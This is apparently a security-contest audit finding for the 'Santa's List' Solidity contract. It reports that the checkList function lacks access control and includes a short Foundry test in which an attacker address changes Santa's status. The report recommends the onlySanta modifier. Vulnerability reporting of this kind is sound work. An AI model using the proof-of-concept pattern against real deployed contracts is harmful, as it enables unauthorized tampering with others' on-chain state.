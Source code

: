 ### Relevant GitHub Links
	
https://github.com/Cyfrin/2023-11-Santas-List/blob/6627a6387adab89ae2ba2e82b38296723261c08a/src/SantasList.sol#L121

## Summary
Anyone can call `testCheckList()` function. This may affect gift allocation decisions.
## Vulnerability Details
According to the description of how the contract functions, the `testCheckList()' function can only be called by Santa. In reality, however, the function can be called by anyone. It is declared as external. It does not contain an access modifier, nor does it check that the code is actually called by Santa. In addition, anybody can set the status to anybody else. See the example below:
```
function testCheckListByUser() public {
    // The specific roles are not really important in this particular test.
    // The idea is to show: Anyone can set a status for anyone.
    vm.prank(user);
    // User sets status for himself
    santasList.checkList(user, SantasList.Status.NICE);
    assertEq(uint256(santasList.getNaughtyOrNiceOnce(user)), uint256(SantasList.Status.NICE));
    vm.stopPrank();

    vm.prank(santa);
    // Santa sets status for user
    santasList.checkList(user, SantasList.Status.EXTRA_NICE);
    assertEq(uint256(santasList.getNaughtyOrNiceOnce(user)), uint256(SantasList.Status.EXTRA_NICE));
    vm.stopPrank();

    vm.prank(attacker);
    // Attacker sets status for Santa
    santasList.checkList(santa, SantasList.Status.NAUGHTY);
    assertEq(uint256(santasList.getNaughtyOrNiceOnce(santa)), uint256(SantasList.Status.NAUGHTY));
    vm.stopPrank();
}
```
## Impact
High. Anyone can set the status they want. The legitimate status set by Santa can be overwritten. 
## Tools Used
Manual check.
## Recommendations
Apply `onlySanta()` modifier.
		
# Medium Risk Findings
